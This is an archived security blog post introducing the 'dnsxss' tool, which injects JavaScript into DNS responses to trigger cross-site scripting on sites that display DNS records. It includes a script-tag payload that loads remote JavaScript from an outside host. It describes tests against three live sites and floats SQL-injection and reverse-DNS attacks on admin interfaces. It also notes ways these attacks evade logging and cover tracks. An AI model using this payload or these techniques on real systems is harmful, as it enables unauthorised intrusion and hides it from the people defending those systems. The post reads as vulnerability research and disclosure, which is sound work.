 ```yaml
---
id: 433
title: 'Stuffing Javascript into DNS names'
date: '2010-04-20T10:36:54-05:00'
author: ron
layout: post
guid: 'http://www.skullsecurity.org/blog/?p=433'
permalink: /2010/stuffing-javascript-into-dns-names
categories:
    - dns
    - hacking
    - tools
---
```


Greetings! 

Today seemed like a fun day to write about a really cool vector for cross-site scripting I found. In my testing, this attack is pretty specific and, in some ways, useless, but I strongly suspect that, with resources I don't have access to, this can trigger stored cross-site scripting in some pretty nasty places. But I'll get to that! 

Interestingly enough, between the time that I wrote this blog/tool and published it, nCircle researchers <a href='http://www.darkreading.com/vulnerability_management/security/app-security/showArticle.jhtml?articleID=224201569'>have said almost the same thing</a> (<a href='http://blog.ncircle.com/blogs/vert/miXSS%20Whitepaper.pdf'>paper</a> (pdf)). The major difference is, I released a tool to do it and demonstrate actual examples. 
<!--more-->
<h2>dnsxss</h2>
If you've installed <a href='/wiki/index.php/Nbtool'>nbtool</a>, you may have noticed that, among other programs it comes with, one of them is called <a href='/wiki/index.php/Dnsxss'>dnsxss</a>. Take a look at the wiki page for more information, but what it does is, essentially, respond to DNS requests for CNAME, MX, TXT, and NS records with Javascript code. Unless you want some specific code, all you have to do is run it:
<pre># dnsxss
Listening for requests on 0.0.0.0:53
Will response to queries with: 
&lt;script/src='http://www.skullsecurity.org/test-js.js'&gt;&lt;/script&gt;
</pre>

Pass -h or --help for a list of arguments. 

Now, an observant reader will realize that this isn't valid HTML. Unfortunately, as far as I can tell, there's no way to send a space through DNS, so you have to come up with some space-free code. The best I could find was replacing spaces with a '/', which will work on Firefox but not IE (I haven't tested anything else). If anybody can think of a better way to write HTML without spaces, let me know. The next best solution is using the TXT query, which DOES allow spaces. dnsxss will reply to TXT queries with well formed Javascript. 

For what it's worth, dnsxss will answer A or AAAA requests with localhost (127.0.0.1 or ::1) -- if somebody does a lookup, they'll get an odd answer that won't immediately lead back to you. 

<h2>Let's break stuff!</h2>
So, what can you do with this?

Well, fortunately (or unfortunately? depends who you are), most sites don't echo back DNS records. But, some do. I picked the first three sites from a Google query and tested them out. All three were vulnerable. And I very much doubt that any programmers even *consider* filtering DNS responses. I mean, who expects DNS responses to contain HTML? 

And, furthermore, if I can sneak HTML code into pretty much any site that looks up DNS names due to lack of filtering, how about SQL injection? If the response is inserted into the database without filtering for SQL characters, which I would bet they are on at least some sites, you now have an avenue for SQL injection! And, better yet, there's a decent chance that the requests won't be logged because a) it's coming through a backchannel so it's not going to be in their Web server logs, b) the statements containing SQL injection won't be inserted to your logging table (since they wouldn't be valid queries), and c) you can turn off the DNS server whenever you want, and no trace will be left that you were ever doing it (except short-lived caches). 

As I mentioned earlier, I took the first three sites from a google query I crafted, and all three were vulnerable. I emailed the administrators of all three sites, and two of them replied thanking me. Both told me that it was a really interesting vector, and that they would fix their sites as soon as possible. The third I haven't heard back from. But the point is, on three random sites, none had even considered implementing any defenses.

Let's take a look at the examples! But first, here are some notes on them:
<ul>
<li>The examples use skullseclabs.org, which is the domain I use for all my testing -- if you plan on testing these yourself, you'll have to register your own domain</li>
<li>The examples use "/* */" to conceal the space, but I realized later that a single "/" works just as well</li>
</ul>

So, without further ado, here are some screenshots of the sites. I anonymized them a little, though a clever attacker could likely Google hack them. 
<h3>Site 1</h3>
The form:
<img src='/blogdata/dnsxss-site1-1.png'>

The result:
<img src='/blogdata/dnsxss-site1-2.png'>

The source:
<img src='/blogdata/dnsxss-site1-3.png'>

<h3>Site 2</h3>
The form:
<img src='/blogdata/dnsxss-site2-1.png'>

The result:
<img src='/blogdata/dnsxss-site2-2.png'>

The source:
<img src='/blogdata/dnsxss-site2-3.png'>

<h3>Site 3</h3>
The form:
<img src='/blogdata/dnsxss-site3-1.png'>

The result:
<img src='/blogdata/dnsxss-site3-2.png'>

The source:
<img src='/blogdata/dnsxss-site3-3.png'>

<h3>So there we go...</h3>
Three sites, none of which filter out my cross-site scripting attempts. Fun!

<h2>Weaponization</h2>
The problem is, this only affects a small percentage of sites -- those that will look up domains and display them for you. How can this be used against more targets?

Well, I have two ideas:
<ol>
<li>As I mentioned earlier, I'd bet money that there are other forms of attacks through these avenues -- I'd be surprised if SQL injection didn't exist</li>
<li>Can you stuff javascript into <strong>reverse</strong> DNS entries?</li>
</ol>

The second point, I suspect, is where we're going to have fun. I can think of countless security devices, from firewalls to vulnerability management tools to proxy servers, with Web interfaces that display reverse DNS records. Not to mention tools where administrators are shown reverse lookups -- forums, for example. Another avenue is logfiles, which are normally visible to administrators. 

In all of these cases, if you can stuff Javascript into reverse DNS lookups, you will likely find some very interesting vulnerabilities. Plus, you can instantly see when somebody hits one, and, more often than not, you can clean up your tracks quite well. 

I don't have access to any domains where I control the reverse DNS records, but if anybody does I'd love to test this out! 
